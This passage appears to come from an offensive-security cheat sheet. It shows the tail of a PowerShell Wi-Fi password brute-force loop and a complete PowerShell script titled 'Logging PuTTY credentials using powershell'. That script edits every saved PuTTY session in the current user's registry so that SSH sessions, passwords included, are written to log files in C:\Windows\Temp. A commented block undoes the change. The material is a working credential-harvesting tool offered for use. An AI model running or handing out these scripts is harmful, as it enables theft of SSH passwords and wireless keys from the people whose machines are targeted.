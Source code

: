 ```netsh wlan show networks mode=bssid```
   {
      Write-Host "Wireless PSK -> $key"
      netsh wlan delete profile name="BruteForce" | Out-Null
      Exit
   }
   netsh wlan delete profile name="BruteForce" | Out-Null
}
```

## >> Logging PuTTY credentials using powershell

```powershell
$user = Get-WMIObject -class Win32_ComputerSystem | select -ExpandProperty username
if(!$user)
{
   Write-Host "Currently logged on user not identified."
   Exit
}
Write-Host "Currently logged on user = $user"
$sidu = (New-Object System.Security.Principal.NTAccount($user)).Translate([System.Security.Principal.SecurityIdentifier]).value
if(!$sidu)
{
   Write-Host "User SID not identified."
   Exit
}
$putty = Test-Path -Path "REGISTRY::HKEY_USERS\$sidu\Software\SimonTatham\PuTTY\Sessions"
if($putty -eq $False)
{
   Write-Host "No PuTTY sessions identified."
   Exit
}
$sess = Get-ChildItem "REGISTRY::HKEY_USERS\$sidu\Software\SimonTatham\PuTTY\Sessions"
if(!$sess)
{
   Write-Host "No PuTTY sessions identified."
   Exit
}
$skey = $sess | Foreach-Object {Get-ItemProperty $_.PsPath}
$snum = 0
Foreach($item in $skey)
{
   $rkey = Convert-Path $item.PsPath
   $rkey = "REGISTRY::$rkey"
   New-ItemProperty -Path "$rkey" -Name "LogFileName" -Value "C:\Windows\Temp\puttylog$snum.log" -Type String -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "LogFlush" -Value 1 -Type DWord -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "LogType" -Value 3 -Type DWord -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "LogFileClash" -Value 0 -Type DWord -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "SSHLogOmitData" -Value 0 -Type DWord -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "SSHLogOmitPasswords" -Value 0 -Type DWord -Force | Out-Null
   <# to remove logging
   New-ItemProperty -Path "$rkey" -Name "LogFileName" -Value "" -Type String -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "LogFlush" -Value 0 -Type DWord -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "LogType" -Value 0 -Type DWord -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "LogFileClash" -Value 1 -Type DWord -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "SSHLogOmitData" -Value 1 -Type DWord -Force | Out-Null
   New-ItemProperty -Path "$rkey" -Name "SSHLogOmitPasswords" -Value 1 -Type DWord -Force | Out-Null
   #>
   $snum++
}
```